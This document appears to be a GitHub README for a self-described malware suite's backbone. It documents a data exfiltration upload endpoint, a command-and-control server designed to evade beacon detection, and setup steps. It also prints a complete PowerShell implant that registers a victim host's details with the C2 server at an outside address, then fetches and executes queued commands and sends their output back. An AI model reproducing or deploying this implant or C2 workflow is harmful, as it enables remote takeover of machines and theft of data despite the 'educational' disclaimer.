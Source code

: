 ```
██╗  ██╗ ██████╗ ██████╗ ██╗███████╗ ██████╗ ███╗   ██╗██████╗  █████╗  ██████╗██╗  ██╗██████╗  ██████╗ ███╗   ██╗███████╗
██║  ██║██╔═══██╗██╔══██╗██║╚══███╔╝██╔═══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗████╗  ██║██╔════╝
███████║██║   ██║██████╔╝██║  ███╔╝ ██║   ██║██╔██╗ ██║██████╔╝███████║██║     █████╔╝ ██████╔╝██║   ██║██╔██╗ ██║█████╗  
██╔══██║██║   ██║██╔══██╗██║ ███╔╝  ██║   ██║██║╚██╗██║██╔══██╗██╔══██║██║     ██╔═██╗ ██╔══██╗██║   ██║██║╚██╗██║██╔══╝  
██║  ██║╚██████╔╝██║  ██║██║███████╗╚██████╔╝██║ ╚████║██████╔╝██║  ██║╚██████╗██║  ██╗██████╔╝╚██████╔╝██║ ╚████║███████╗
╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝╚══════╝ ╚═════╝ ╚═╝  ╚═══╝╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚══════╝
```

-----------------------------------------------------------------------------------

**THIS PROJECT IS DESIGNED FOR EDUCATIONAL PURPOSE ONLY! DO NOT USE IT FOR ILLEGAL PURPOSES!**

The heart of the Horizon Malware Suite and used for all kinds of things.

## Roadmap

- [X] List files
- [x] Simple web-interface
- [x] File download
- [ ] Delete file(s)
- [X] Make a better UI for the web-interface
- [X] C2 Server and API
- [X] Frontend for C2 Server
- [ ] Rewrite API and frontend as microservices
- [ ] API & frontend authentication
- [ ] Dynamic creation of stagers/droppers
- [ ] Frontend-Dialog for stager/dropper creation
- [ ] File upload for droppers


## Why microservices?

I want to make the whole Horizon Malware Suite as modular as possible. This way you can use the parts you need and don't have to use the whole suite.
Another aspect is that I want to add scalability to the project. If you want to use the whole suite you can just spin up multiple instances of the microservices and use a load balancer to distribute the load.

It will also allow me to develop the different parts of the suite independently from each other. This way I can focus on one part at a time and don't have to worry about breaking other parts of the suite.

Microservices will bring a very big change to the project. For example the frontend will be a NodeJS application that will communicate with the API via REST. I previously used Jinja2 templates to render the frontend. This is why I also need to rewrite parts of the API.

As a message queue/broker I will use Apache Kafka.

## Setup & Start

Clone the repository and run `docker-compose build` to build the images.

Start the stack with `docker-compose up -d` and you are good to go.

## Usage

### Dashboard

After starting the stack you can access the Webinterface by accessing `http://SERVER_IP_OR_DOMAIN:8000` in your browser.

There you can (*currently*) choose between the Data Exfiltration and the C2 Server.

### Data Exfiltration

To exfiltrate data you can use the '/upload' endpoint.

You can see your uploaded files under `http://SERVER_IP_OR_DOMAIN:8000/list-files-view`.

![DataExfil](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/39b7923c-8328-4672-8dc7-5f75cc725565)

If you click on the filename you can access the file and download it.

![FileView](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/75e3ff57-d2e7-45da-8c4d-8f8beffb0653)

### C2 Server

The C2 Server is intended for long-term usage. Communication should take place over a long period of time that are non-linear to avoid beacon detection.

The workflow is as follows:

1. Register a new client. This will create a new client in the database and return a unique ID. This ID is used for all further communication with the client. (`http://SERVER_IP_OR_DOMAIN:8000/register`)
2. Queue new commands for the client via the web-interface in the detail view of each client.
3. The client will check for new command(s) after the specified interval and execute it/them. (`http://SERVER_IP_OR_DOMAIN:8000/commands/{connection_id}`)
4. The client will send the results of the command(s) to the server. (`http://SERVER_IP_OR_DOMAIN:8000/output/send/{connection_id}`)
5. The server will store the results in the database and make them available via the web-interface. Hit the refresh button in the detail view of the client to see the output.
6. Unregister the client if you don't need it anymore. (`http://SERVER_IP_OR_DOMAIN:8000/unregister/{connection_id}`) *interface currently in development*

#### Reverse Shell Example

Here is an example of a reverse shell using the C2 Server. Replace the IP address in the `$main_url` variable and in some other url variables with the IP address of your server.

```PowerShell
$ip_address=((ipconfig|Select-String "IPv4 Address").ToString() -split ": ")[-1];$os_type=(Get-WmiObject -Class Win32_OperatingSystem).Caption;$hostname=(Get-WmiObject -Class Win32_ComputerSystem).Name;$username=[Environment]::UserName;$main_url="http://10.0.0.9:8000";$interval=30;$intervalUnit="Seconds";$body=@{os_type=$os_type;ip_address=$ip_address;hostname=$hostname;username=$username;password="placeholder"}|ConvertTo-Json;Write-Host "IP Address: $ip_address";Write-Host "OS Type: $os_type";Write-Host "Hostname: $hostname";Write-Host "Username: $username";$url="http://10.0.0.9:8000/register?os_type=$os_type&ip_address=$ip_address&hostname=$hostname&username=$username&password=$password";$response=Invoke-RestMethod -Method Post -Uri $url;$connection_id=$response.id;Write-Host "Registered connection with ID: $connection_id";while($true){$url="$main_url/commands/$connection_id";$command=Invoke-RestMethod -Method Get -Uri $url;Write-Host "Received command: $command";if([string]::IsNullOrEmpty($command)){write-host "No command received yet...";$startSleepCmd="Start-Sleep -$intervalUnit $interval";$startSleepCmdStr=[String]$startSleepCmd;Invoke-Expression $startSleepCmdStr;continue;}if($command -eq "exit"){write-host "Exiting...";break;}write-host "Executing command: $command";if($command -ne "" -or $null -ne $command){$commandStr=[String]$command;$result=Invoke-Expression $commandStr;$output=$result|Out-String;$body=@{output=$output}|ConvertTo-Json;$url="$main_url/output/send/$connection_id";$body=@{output=$output}|ConvertTo-Json;Invoke-RestMethod -Method Post -Uri $url -Body $body;}}
```

### API

You can find all the API endpoints in the under `http://SERVER_IP_OR_DOMAIN:8000/docs`.





